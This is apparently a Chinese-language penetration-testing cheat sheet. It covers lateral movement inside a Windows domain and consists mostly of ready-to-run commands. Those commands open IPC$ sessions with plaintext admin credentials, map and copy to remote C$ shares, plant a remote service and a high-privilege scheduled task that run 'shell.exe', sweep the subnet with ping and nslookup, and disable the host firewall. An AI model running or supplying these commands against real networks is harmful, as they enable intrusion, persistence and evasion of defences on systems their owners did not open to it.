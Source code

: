 利用最基础的ipc连接,这里需要注意下防火墙,如果没允许`文件和打印共享`服务,是根本net不上去的
```
# net use \\192.168.3.122\ipc$ /u:"" ""		先空连接探测
# net use					查看当前机器中的ipc连接有哪些
# net use \\192.168.3.122\ipc$ /del
# net use \\192.168.3.122\admin$ /user:"dcadmin" "admin!@#45" 	建立真正的ipc
```

ipc建立成功后,尝试直接在本地往远程机器上拷贝文件
```
第一种方式:
# net use p: \\192.168.3.122\c$		可在建立ipc后直接把对方的c盘映射过来,直接在本地进行拷贝
# net use p: /del			用完以后,务必立马删除映射
```

```
第二种方式[推荐用xcopy]:
# xcopy d:\sqlitedata\*.* \\192.168.3.122\c$\temp /E /Y /D  也可在建立ipc后直接远程拷贝
```

依然是在ipc建立后,可直接在远程机器上创建,删除服务,创建服务时需要注意,常规程序需要有返回值,不然启动服务时会报1053错误
```
# sc \\192.168.3.122 create shellsrv binpath= "c:\shell.exe" start= auto displayname= "shellstart"
# sc \\192.168.3.122 stop shllsrv
# sc \\192.168.3.122 delete shellsrv
```

```
# net use \\192.168.3.122\admin$ /del
# net use * /del	最后,删除所有ipc,如果系统中还有其它的ipc连接,也可指定只删除自己的
```

在远程机器上快速创建删除定时任务,需要指定目标系统的账号密码 [ 03以下系统用at,想必大家都已非常熟练,这里不再多说 ]
```
# net use \\192.168.3.122\admin$ "admin!@#45" /user:"klionsec\administrator"
# net time \\192.168.3.122	查看目标机器当前时间
# net use \\192.168.3.122\admin$ /del

# schtasks /create  /?		查看schtasks使用帮助
# chcp 437			如果当前机器是中文系统需要先修改下cmd字符集,默认cmd是gbk,不然后面用schtasks远程创建计划任务时会报错
# chcp 936			用完以后再把字符集改回来,如果是英文系统就不会有这种问题
# schtasks /s 192.168.3.122 /u "klionsec\administrator" /p "admin!@#45" /create /TN "shellexec" /SC DAILY /ST 11:18 /F /RL HIGHEST /SD 2017/11/13 /ED 2017/11/16 /TR "C:\shell.exe"
# schtasks /s 192.168.3.122 /u "klionsec\administrator" /p "admin!@#45" /query  | findstr "shell"
# schtasks /s 192.168.3.122 /u "klionsec\administrator" /p "admin!@#45" /TN "shellexec" /delete
```

初步先大致看下当前所在内网有多少存活机器 [ 单基于icmp的扫描 ]:
``` 
# for /L %I in (1,1,254) DO @ping -n 1 192.168.3.%I | findstr "TTL=128" >> pinglog.txt
```

搜集当前内网中的dns信息:
```
# for /L %I in (1,1,254) DO @nslookup 192.168.3.%I | find "Name:" >> dnslog.txt
```

操作当前机器防火墙[务必先提权]:
```
# netsh advfirewall show private		查看当前机器防火墙状态
# netsh advfirewall set allprofiles state off	关闭当前机器防火墙
# netsh advfirewall set allprofiles state on	开启当前机器防火墙
```
